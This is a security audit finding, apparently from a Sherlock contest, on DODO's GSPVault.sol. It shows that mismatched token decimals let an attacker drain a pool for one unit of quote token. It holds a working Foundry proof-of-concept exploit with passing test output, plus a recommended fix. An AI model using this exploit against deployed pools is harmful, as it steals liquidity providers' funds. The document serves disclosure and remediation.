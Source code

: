 Huge Magenta Tardigrade

high

# `GSPVault.sol` rounding errors due to mixed-precision assets results in theft of provisioned liquidity.

## Summary

Initializing a pool with a lower-precision base asset results in breakdown of pool invariant logic due to rounding errors.

## Vulnerability Detail

Share calculation logic in the [`GSPVault`](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol) operates on the implicit assumption that the number of [`IERC20Metadata#decimals()`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/abcf9dd8b78ca81ac0c3571a6ce9831235ff1b4c/contracts/token/ERC20/extensions/IERC20Metadata.sol#L25) of the [`_BASE_TOKEN_`](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSP.sol) are  greater than or equal number of decimals to the [`_QUOTE_TOKEN_`](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPStorage.sol#L31).

However, this assumption is not enforced. In the following test, we'll create two [`MockERC20`](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/mock/MockERC20.sol)s:

1. The base asset, `b`, with `6` decimals of precision i.e. [$USDC](https://etherscan.io/token/0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48#readProxyContract).
2. The quote asset, `q`, with `18` decimals of precision i.e. [$DAI](https://etherscan.io/token/0x6b175474e89094c44da98b954eedeac495271d0f#readContract).

First, the `MAINTAINER` initializes a pool normally using these assets:

```solidity
address MAINTAINER = 0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0;
uint256 LP_FEE_RATE = 1000;
uint256 MT_FEE_RATE = 10000000000000;
uint256 I = 1000000;
uint256 K = 500000000000000;

uint8 decimalsBase = 6;
uint8 decimalsQuote = 18;

MockERC20 b = new MockERC20("Base", "B", decimalsBase);
MockERC20 q = new MockERC20("Quote", "Q", decimalsQuote);

/* maintainer_init */
GSP gsp = new GSP();
gsp.init(MAINTAINER, address(b), address(q), LP_FEE_RATE, MT_FEE_RATE, I, K, false);

b.mint(MAINTAINER, 10 ** decimalsBase);
q.mint(MAINTAINER, 10 ** decimalsQuote);

assert(decimalsBase < decimalsQuote);

/* maintainer_shares */
vm.startPrank(MAINTAINER);

    b.transfer(address(gsp), 10 ** decimalsBase);
    q.transfer(address(gsp), 10 ** decimalsQuote);

    (uint256 maintainerSharesBought,,) = gsp.buyShares(MAINTAINER);

    assertEq(maintainerSharesBought, 1_000_000);
    assertEq(b.balanceOf(address(gsp)), 10 ** decimalsBase);
    assertEq(q.balanceOf(address(gsp)), 10 ** decimalsQuote);

vm.stopPrank();
```

If we analyze the internal state of the pool, we can see the following metrics:

```solidity
console.log(gsp._BASE_TARGET_());
console.log(gsp._QUOTE_TARGET_());
```

```shell
Logs:
  1000000
  0
```

This is to say, the [`_QUOTE_TARGET_`](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPStorage.sol#L42) has been incorrectly calculated due to rounding errors from the lesser precision of the base asset.

> [!NOTE]  
> If we had defined the base assets in the opposite order, these two variables would instead have correctly reported:
>
> ```shell
> Logs:
>  1000000000000000000
>  1000000
> ```


Next let's initialize the `ATTACKER`, who requires only a single unit of quote asset:

```solidity
/* init_attacker */
address ATTACKER = address(0x69);
q.mint(ATTACKER, 1);
```

For the price of a single unit of the quote asset, the `ATTACKER` is able to completely drain the pool:

```solidity
/* attacker_steal */
vm.startPrank(ATTACKER);

    q.transfer(address(gsp), 1);

    (uint256 quoteAmountRecieved) = gsp.sellQuote(ATTACKER);
     assertEq(quoteAmountRecieved, 999990);

    (uint256 baseAmountReceived) = gsp.sellBase(ATTACKER);
    assertEq(baseAmountReceived, 999989999999999001);

vm.stopPrank();
```

## Impact

The pool is drained, rendering the shares of liquidity worthless.

## Code Snippet

```solidity
// SPDX-License-Identifier: CC0-1.0
pragma solidity ^0.8.13;

import {Test} from "forge-std/Test.sol";

import {DeployGSP} from "../scripts/DeployGSP.s.sol";
import {GSP} from "../contracts/GasSavingPool/impl/GSP.sol";
import {PMMPricing} from "../contracts/lib/PMMPricing.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {MockERC20} from "mock/MockERC20.sol";

contract GSPVaultSherlockRoundingErrors is Test {

    address constant MAINTAINER = 0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0;
    uint256 constant LP_FEE_RATE = 1000;
    uint256 constant MT_FEE_RATE = 10000000000000;
    uint256 constant I = 1000000;
    uint256 constant K = 500000000000000;
    bool constant IS_OPEN_TWAP = false;

    function test_sherlock_roundingErrors() public {

        uint8 decimalsBase = 6;
        uint8 decimalsQuote = 18;

        MockERC20 b = new MockERC20("Base", "B", decimalsBase);
        MockERC20 q = new MockERC20("Quote", "Q", decimalsQuote);

        /* maintainer_init */
        GSP gsp = new GSP();
        gsp.init(MAINTAINER, address(b), address(q), LP_FEE_RATE, MT_FEE_RATE, I, K, IS_OPEN_TWAP);

        b.mint(MAINTAINER, 10 ** decimalsBase);
        q.mint(MAINTAINER, 10 ** decimalsQuote);

        assert(decimalsBase < decimalsQuote);

        /* maintainer_shares */
        vm.startPrank(MAINTAINER);

        b.transfer(address(gsp), 10 ** decimalsBase);
        q.transfer(address(gsp), 10 ** decimalsQuote);

        (uint256 maintainerSharesBought,,) = gsp.buyShares(MAINTAINER);

        assertEq(maintainerSharesBought, 1_000_000);
        assertEq(b.balanceOf(address(gsp)), 10 ** decimalsBase);
        assertEq(q.balanceOf(address(gsp)), 10 ** decimalsQuote);

        vm.stopPrank();

        /* attacker_init */
        address ATTACKER = address(0x69);
        q.mint(ATTACKER, 1);

        /* attacker_exploit */
        vm.startPrank(ATTACKER);
        q.transfer(address(gsp), 1);

        (uint256 quoteAmountRecieved) = gsp.sellQuote(ATTACKER);
        assertEq(quoteAmountRecieved, 999990);

        (uint256 baseAmountReceived) = gsp.sellBase(ATTACKER);
        assertEq(baseAmountReceived, 999989999999999001);

        vm.stopPrank();

        /* maintainer_liquidate */
        vm.startPrank(MAINTAINER);

        (uint256 baseAmountOut, uint256 quoteAmountOut) = gsp.sellShares(
            maintainerSharesBought,
            MAINTAINER,
            0,
            0,
            "",
            block.timestamp
        );

        assertEq(baseAmountOut, 0);
        assertEq(quoteAmountOut, 1000);

        vm.stopPrank();

    }

}
```

```shell
Running 1 test for test/GSPVault.Sherlock.RoundingErrors.sol:GSPVaultSherlockRoundingErrors
[PASS] test_sherlock_roundingErrors() (gas: 5365822)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.97s
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Tool used

Visual Studio Code, Halmos

## Recommendation

When initializing a pool, ensure the number of [`decimals`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/abcf9dd8b78ca81ac0c3571a6ce9831235ff1b4c/contracts/token/ERC20/extensions/IERC20Metadata.sol#L25) of the base asset is greater than or equal to the number of [`decimals`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/abcf9dd8b78ca81ac0c3571a6ce9831235ff1b4c/contracts/token/ERC20/extensions/IERC20Metadata.sol#L25) in the quote asset.

### [GSP.sol](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSP.sol)

```diff
// symbol of the shares is GLP
symbol = "GLP";
// decimals of the shares is the same as the base token decimals
decimals = IERC20Metadata(baseTokenAddress).decimals();

+ if (decimals < IERC20Metadata(quoteTokenAddress).decimals())
+    revert("BASE_QUOTE_DECIMALS_CANNOT_BE_LESS_THAN_QUOTE");
+
// ============================== Permit ====================================
uint256 chainId;
assembly {
```